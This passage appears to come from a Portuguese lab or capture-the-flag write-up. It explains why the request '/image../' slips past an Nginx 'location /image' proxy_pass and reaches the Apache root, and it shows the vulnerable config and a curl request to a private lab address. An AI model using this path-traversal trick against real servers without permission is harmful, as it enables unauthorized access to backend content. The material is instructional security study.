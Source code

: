 ### 3.2.2. Porque `/image../` funcionou?

**O que o Nginx faz?**

Quando você acessa `/image../`, o Nginx não interpreta isso como um diretório real e não realiza nenhuma normalização de path como ocorre no `/image/../`. O `/image../` é considerado um nome literal de URI, onde o `..` não está separado por `/` como parte de um caminho de diretório, portanto não aciona o mecanismo de normalização do Nginx. O Nginx ainda faz match com a diretiva `location /image`, pois `/image../` começa com `/image`. Isso é diferente do que foi explicado anteriormente, não há falha no matching, mas sim um matching bem-sucedido.

**O que acontece?**

Como o Nginx identifica que `/image../` faz match com `location /image`, ele aplica o `proxy_pass` configurado:

```nginx
location /image {
    proxy_pass http://apache:80/Chibi/;
}
```

O Nginx encaminha a requisição para `http://apache:80/Chibi/` e anexa o restante do path após `/image`, que no caso é `..`. Então a requisição que chega ao Apache é para `/Chibi/..`.

**O que o Apache faz?**

O Apache, ao receber a requisição para `/Chibi/..`, normaliza esse path. Como `..` significa "voltar um diretório", o Apache interpreta `/Chibi/..` como `/`.

Por isso, quando executamos `curl http://10.0.2.107/image../`, vemos a resposta `<html><body><h1>It works!</h1></body></html>`, que é a página padrão do Apache para a raiz do site.

**Veja o header da requisição:**

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v http://10.0.2.107/image../
*   Trying 10.0.2.107:80...
* Connected to 10.0.2.107 (10.0.2.107) port 80
* using HTTP/1.x
> GET /image../ HTTP/1.1
> Host: 10.0.2.107
> User-Agent: curl/8.14.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.13.0
< Date: Fri, 18 Jul 2025 17:42:59 GMT
< Content-Type: text/html
< Content-Length: 45
< Connection: keep-alive
< Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
< ETag: "2d-432a5e4a73a80"
< Accept-Ranges: bytes
< 
<html><body><h1>It works!</h1></body></html>
* Connection #0 to host 10.0.2.107 left intact
```
